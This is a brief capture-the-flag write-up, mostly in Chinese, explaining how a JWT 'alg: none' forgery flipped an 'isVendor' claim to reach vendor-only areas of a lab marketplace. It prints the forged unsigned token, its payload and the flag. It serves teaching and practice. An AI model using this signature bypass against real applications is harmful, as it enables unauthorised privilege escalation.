

# The Vendor's Secret Door

## 題目描述

You're browsing the underground marketplace, but you're just a regular buyer. Some users claim they've found a way to access vendor-only areas. Can you figure out how?

## 解題思路

登入以後發現有個 JWT，於是先試試看能不能直接把 alg 變成 None，結果可以

`eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6Img5aXhrdyIsImVtYWlsIjoiYUBhIiwiaXNWZW5kb3IiOnRydWUsImlhdCI6MTc4MTg3MDM2MiwiZXhwIjoxNzgyNDc1MTYyfQ.`

```json
{
  "id": "h9ixkw",
  "email": "a@a",
  "isVendor": true,
  "iat": 1781870362,
  "exp": 1782475162
}
```

改好以後就可以拿到 flag 了



## Flag

```text
bitflag{jwt_5h4ll_n0t_p455}
```
